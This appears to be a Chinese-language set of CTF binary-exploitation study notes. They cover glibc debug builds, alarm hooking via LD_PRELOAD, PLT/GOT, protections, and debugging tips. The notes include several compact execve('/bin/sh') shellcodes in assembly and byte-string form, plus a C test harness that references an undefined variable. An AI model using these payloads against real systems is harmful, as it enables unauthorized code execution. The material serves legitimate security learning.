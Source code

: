## 一些资源

```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcodes/
[linux pwn 入门教程 i春秋](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)
[格式化字符串](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=43624&ctid=157)
[调整栈帧的技巧](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42534&ctid=157)
[PIE无关](https://bbs.ichunqiu.com/thread-43627-1-1.html)
```

## 编译带 debug symbol 的 glibc

### download

[glibc](http://gnu.mirrors.pair.com/libc/)

### make

解压后，要创建额外的 build 目录，直接在 glibc 目录下创建了 build 目录`mkdir build && cd build`，使用下面的命令进行编译,
`CFLAGS` makefile 编译选项
`-g`:包含调试信息是 OS native format
`-ggdb`: 供 gdb 使用的调试信息
`-g3`: 产生额外的 debug 信息
`-gdwarf-4`: 产生 dwarf 格式的 debug info，产生 `.debug_info`段
`-Og` 启用不影响调试的编译优化
`--prefix` 安装路径
`--disable-sanity-checks` 关闭适应性检查。可能与 GNU/Linux 行为不一致

```sh
CFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" CXXFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" ../configure --prefix=/root/app/glibc22364 --disable-werror
```

### use

运行前需要加环境变量,
example:`export LD_LIBRARY_PATH=/root/app/glibc22364/lib/

### 排错

`loc1@GLIBC_2.17' can't be versioned to common symbol 'loc1'` 这是一个 bug，在[这里](https://stackoverflow.com/questions/51279418/how-to-build-older-version-of-glibc)可以找到解决方法。

## 干掉 alarm

很多题目都有 alarm 函数防止 Dos 攻击，超过指定的时候后程序就会退出，不便于 debug，通常有几种干掉 alarm 的方法：

- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD

```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```

编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got

![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向 got,采用延时绑定。printf 函数中，0x404c010 实际内容是下一条指令`push 0`,
而 plt.got 是已经绑定的， puts 函数的 0x804bff4 是指向实际 puts 函数的

## PIC 地址无关 PIE

[看这篇文章](https://www.polarxiong.com/archives/%E5%A6%82%E4%BD%95%E7%90%86%E8%A7%A3DLL%E4%B8%8D%E6%98%AF%E5%9C%B0%E5%9D%80%E6%97%A0%E5%85%B3%E7%9A%84-DLL%E4%B8%8EELF%E7%9A%84%E5%AF%B9%E6%AF%94%E5%88%86%E6%9E%90.html)

## shellcode

### x86

```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

20bytes:

```x86asm
  xor ecx,ecx
  cdq
  push ecx
  push 0x68732f2f
  push 0x6e69622f
  mov ebx,esp
  mov al,0xb
  int 0x80
```

### x64

24bytes:

```x64asm
global _start
section .text
_start:
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
	push rdx
	push rdi
	push rsp
	pop rsi
	syscall
```

22bytes:

```x64asm
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
  push rdx
	pop rsi
	syscall
```

```c
#include <stdio.h>
#include <string.h>
char code24[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
char code22[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code24));
    (*(void(*)()) code)();
    return 0;
}
```

### 制作方法

linux 下

- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode 的。
- 使用`xxd -i [target]`将上述 shellcode 转为 char 数组
  相关工具
- https://github.com/Neetx/Shellcode-Extractor
  从 elf 提取 shellcode

## 生成可打印的 shellcode

TODO:  
http://blog.eonew.cn/archives/1125

## 漏洞挖掘方法

- 现成 CMS 注意 DIFF
- 根据漏洞 PATCH
- 根据漏洞写出 EXP，发动攻击
-

## 保护

NX:DEP 栈不可执行，可执行不可写 ROP 绕过
ALSR: 把每次载入的函数地址随机化，利用 puts/printf 等 leak 出 libc 的实际地址

## strace

strace 可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败

```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```

## LD_PRELOAD、 LD_SHOW_AUXV

- LD_PRELOAD 可以指定一个或多个共享库文件，linux 加载器`ld-linux`会先于 glibc 加载 LD_PRELOAD 指定的库。  
  用途：HOOK 掉 alarm。  
  为了避免用于恶意攻击，在 ruid !=euid 的情况下加载器是不会使用 LD_PRELOAD 进行预加载。
- `LD_SHOW_AUXV=1 ./pwnme` 用于调试
